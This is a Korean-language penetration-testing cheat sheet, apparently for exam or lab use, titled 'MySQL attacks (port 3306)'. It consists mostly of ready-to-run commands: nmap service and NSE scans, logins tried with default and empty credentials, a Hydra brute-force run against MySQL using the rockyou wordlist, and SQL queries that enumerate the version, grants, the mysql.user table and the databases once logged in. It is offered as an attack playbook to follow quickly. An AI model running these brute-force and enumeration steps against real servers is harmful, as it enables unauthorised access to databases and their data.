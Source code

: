 # 🐬 MYSQL ATTACKS (Port 3306)

> **목표: MySQL 서비스 발견 후 25-30분 내에 파일 시스템 접근 또는 중요 데이터 수집**

## ⚡ 즉시 실행할 명령어들

### 🚀 MySQL 발견 즉시 실행

```bash
# 1. MySQL 포트 및 버전 확인
nmap -sV -p 3306 {IP}
nmap --script mysql-* -p 3306 {IP}

# 2. 기본 자격증명 즉시 시도
mysql -h {IP} -u root -p
# Password 시도: (empty), root, mysql, password, admin, 123456

mysql -h {IP} -u admin -p
mysql -h {IP} -u mysql -p
mysql -h {IP} -u user -p

# 3. 익명 접근 시도
mysql -h {IP}
mysql -h {IP} -u '' -p

# 4. MySQL NSE 스크립트 실행 (백그라운드)
nmap --script mysql-enum,mysql-users,mysql-databases,mysql-variables -p 3306 {IP} &

# 5. Hydra 브루트포스 시작 (백그라운드)
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://{IP} &
```

### ⚡ 연결 성공시 즉시 실행

```bash
# 기본 정보 수집
SELECT version();
SELECT user();
SELECT database();
SELECT @@hostname;

# 권한 확인
SHOW GRANTS;
SELECT * FROM mysql.user WHERE user = user();

# 데이터베이스 목록
SHOW DATABASES;
```

---
